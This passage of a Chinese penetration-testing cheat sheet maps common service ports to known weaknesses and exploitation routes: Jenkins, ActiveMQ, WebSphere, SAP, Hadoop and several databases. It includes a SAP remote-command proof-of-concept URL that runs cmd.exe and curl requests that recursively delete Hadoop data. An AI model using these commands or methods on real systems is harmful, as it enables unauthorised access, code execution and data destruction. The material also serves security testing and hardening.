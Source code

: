 **8080 端口（Jenkins）**

```text
安全漏洞：未授权访问 、远程代码执行
利用方式：访问如下url，可以执行脚本命令，反弹shell，写入webshell等。http://<target>:8080/managehttp://<target>:8080/script
```

**8161 端口（ActiveMQ）**

```text
安全漏洞：弱口令、任意文件写入、反序列化
利用方式：默认密码admin/admin登陆控制台、写入webshell、上传ssh key等方式。
```

_**\**_**9043 端口（webSphere）\*\***

```text
安全漏洞：控制台弱口令、远程代码执行
后台地址：https://:9043/ibm/console/logon.jsp
```

**\*\**\*\*\*50000 端口 （SAP）\*\*\*\*\*_\*_

```text
安全漏洞：远程代码执行利用方式：攻击者通过构造url请求，实现远程代码执行。POC:http://<target>:50000/ctc/servlet/com.sap.ctc.util.ConfigServlet?param=com.sap.ctc.util.FileSystemConfig;EXECUTE_CMD;CMDLINE=cmd.exe /c ipconfig /all
```

**50070 端口（hadoop）**

```text
安全漏洞：未授权访问
利用方式：攻击者可以通过命令行操作多个目录下的数据，如进行删除操作。curl -i -X DELETE “http://ip:50070/webhdfs/v1/tmp?op=DELETE&recursive=true“curl -i -X PUT “http://ip:50070/webhdfs/v1/NODATA4U_SECUREYOURSHIT?op=MKDIRS“
```

### **3、数据库端口**

**389 端口（ldap）**

```text
安全漏洞：未授权访问 、弱口令
利用方式：通过LdapBrowser工具直接连入。
```

**1433 端口（Mssql）**

```text
安全漏洞：弱口令、暴力破解
利用方式：差异备份getshell、SA账户提权等
```

**1521 端口（Oracle）**

```text
安全漏洞：弱口令、暴力破解
利用方式：通过弱口令/暴力破解进行入侵。
```

**3306 端口（MySQL）**

```text
安全漏洞：弱口令、暴力破解
利用方式：利用日志写入webshell、udf提权、mof提权等。
```
